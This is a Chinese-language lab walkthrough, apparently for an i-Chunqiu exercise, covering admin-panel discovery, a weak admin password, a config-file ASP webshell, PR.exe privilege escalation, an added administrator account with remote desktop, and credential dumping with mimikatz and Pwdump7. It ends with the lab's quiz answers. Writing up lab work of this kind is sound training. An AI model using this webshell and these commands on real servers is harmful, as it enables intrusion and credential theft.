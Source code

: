 
### 1、御剑扫描后台

扫出后台地址 `www.test.ichunqiu/admin/`

![](images/1.jpg)

### 2、弱口令进后台

尝试弱密码密码`admin888`,登录成功(界面和`动易SmartSchool`一样,参考默认密码`admin888`)

也可以扫注入点.试出弱密码就不浪费时间了

![](images/2.jpg)

### 3、修改配置 getshell

参考`南方数据cms getshell`,`系统设置管理`-`网站信息配置`修改网站配置信息

```asp
"%><%eval request(chr(97))%><%'
```

![](images/3.jpg)

菜刀连接(密码a):

![](images/4.jpg)


### 4、PR.exe 提权 && 新建管理员用户

默认是iis用户,对 `c:\RECYCLER`(回收站) 有读写权限

![](images/5.jpg)

菜刀上传,`cmd.exe`,`3389.exe`,`PR.exe`到`c:\RECYCLER`

cmd.exe --> 右键 --> 打开虚拟终端 --> `PR.exe + 命令`

![](images/6.jpg)

```
PR.exe "net user wooyun wooyun.org /add"           # 新建用户`wooyun`,密码`wooyun.org`
PR.exe "net localgroup administrators wooyun /add" # 将`wooyun`用户加入到管理员组
PR.exe "3389.exe"                                  # 开远程桌面服务
PR.exe "tasklist /svc"                             # 检查远程桌面服务是否开启
```

![](images/7.jpg)


### 5、抓取管理员密码

```
远程桌面连接 --> 选项 --> 本地资源 --> 选择驱动器 (方便复制粘贴文件)
```
![](images/9.jpg)
![](images/8.jpg)

上传 `mimikatz Win32`(tools里面带的`mimikatz`版本为1.0,么有2.0版本的 MMP)

`mimikatz.exe 1.0`抓取密码命令
```
//开始运行神器
mimikatz.exe
//提升权限
privilege::debug
//注入dll
inject::process lsass.exe sekurlsa.dll
//抓取密码
@getLogonPasswords
```

扩展: `mimikatz.exe 2.0` 抓取密码:

```
privilege::debug
sekurlsa::logonpasswords full

菜刀运行:
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
```

似乎是失败了,提示内存不足,忘了截图

在`tools\提权工具\hash`找到`Pwdump7`,上传传到目标服务器,双击运行`pwdump7.bat`

成功提取出`Administrator`的hash:
```
62C4700EBB05958F3832C92FC614B7D1:4D478675344541AACCF6CF33E1DD9D85
```

![](images/10.jpg)

使用 `SAMInside.exe` 没有成功破解出密码.

`Google`找到一家在线破解`NTHASH`的网站[www.objectif-securite.ch](https://www.objectif-securite.ch/en/ophcrack.php)

![](images/11.jpg)

不能复制粘贴,手工输入输入框,破解出密码:`cu9e2cgw`


<h4 style="color: red;"> 所以答案是:</h4>
```
wvs是什么工具: 漏洞扫描工具
管理员的密码是什么: admin888
通过什么方式获得的webshell: 写配置文件
获取目标服务器密码: cu9e2cgw
```

![](images/12.jpg)

### 吐槽

<h4 style="color: red;"> MMP,网速炒鸡慢,卡的一bi,想打人,Orz <br> 不能复制粘贴,蓝瘦香菇TAT</h4>

<h4 style="color: red;">感谢 OneDrive, Ctrl+Z 把文件弄没了吓得我菊花一紧,还好有 OneDrive 的备份 </h4>

![](images/13.jpg)
